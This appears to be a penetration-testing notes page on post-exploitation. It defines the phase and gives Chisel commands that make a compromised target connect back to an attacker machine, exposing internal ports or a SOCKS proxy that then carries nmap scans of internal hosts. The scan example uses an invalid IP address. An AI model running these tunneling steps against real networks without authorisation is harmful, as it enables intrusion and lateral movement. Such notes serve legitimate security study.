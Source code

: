 ```yaml
---
description: This page contains notes on post-exploitation
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Post Exploitation

### About Post Exploitation

Post-exploitation refers to the phase of a cybersecurity attack that occurs after an attacker has successfully compromised a target system. During this phase, the attacker aims to maintain access, gather valuable information, escalate privileges, and potentially launch further attacks. It involves activities such as lateral movement within the network, data exfiltration, creating backdoors, and covering their tracks to avoid detection. Post-exploitation is a crucial part of the attack lifecycle as it allows the attacker to maximize the impact of their initial compromise and achieve their ultimate objectives.

### Tunneling with Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

#### Exposing Internal Service

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

On attacker machine, run this command:

```bash
chisel server -p 2525 --socks5 --reverse -v
```

Example, on target there is service running on port 8000 at localhost, then run this command:

```bash
./chisel client 10.10.14.46:2525 R:8001:127.0.0.1:8000
```

Now, we can access the service from port 8001 on our machine.

#### Scanning Internal Server / IP

From attacker machine, run chisel server.

```
./chisel server -p 31337 --socks5 --reverse -v
```

From Client:&#x20;

```
./chisel client 10.10.200.13:31337 R:31338:socks
```

Now, from attacker machine, add proxy to proxychains4.conf

```
socks5 127.0.0.1 31338
```

Now you can scan internal target IP from attacker machine.

```
proxychains4 nmap 192.168.1.337
```

### Related Links

* [**Windows Post Exploitation**](../active-directory/post-exploitation/)
* [**Linux Post Exploitation**](../linux/linux-post-exploitation.md)

